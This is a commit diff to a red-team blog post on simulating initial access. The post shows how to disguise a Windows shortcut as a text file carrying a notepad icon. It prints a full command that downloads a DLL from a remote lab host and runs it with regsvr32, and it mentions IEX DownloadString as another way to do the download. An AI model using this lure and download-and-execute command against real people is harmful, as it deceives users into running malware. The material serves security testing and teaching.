

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2022-06-01-Initial-Access-Simulation.md, in a window 1280 px wide and 1400 px high, scrolled down 1445 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2022-06-01-Initial-Access-Simulation.md

````diff
--- a/_posts/2022-06-01-Initial-Access-Simulation.md
+++ b/_posts/2022-06-01-Initial-Access-Simulation.md
@@ -61,21 +61,21 @@
 </p>
 
 
-After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password inside). Since we don't want to show the typical cmd.exe icon we can then add a specific icon that in this case will be notepad. Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor).
+After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password to decrypt the PDF). Since we don't want to show the typical `cmd.exe` icon, which might look suspicious, we can then add a specific icon that in this specific case will be notepad. Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor).
 
 
 <p align="center">
   <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk2.PNG">
 </p>
 
-Now we can add the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path.
+Now we can craft the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path.
 
 The full command specified inside the shortcut file is the following:
 
 ```powershell
 C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll
 ```
-__Note:__ The powershell download can be performed with the usual suspect IEX Download String function. 🚩
+__Note:__ The powershell download can be also be performed with the usual suspect IEX Download String function. 🚩
 
 Futhermore, the above command is included inside the readme.lnk file which will look like this to the end user.
 
````
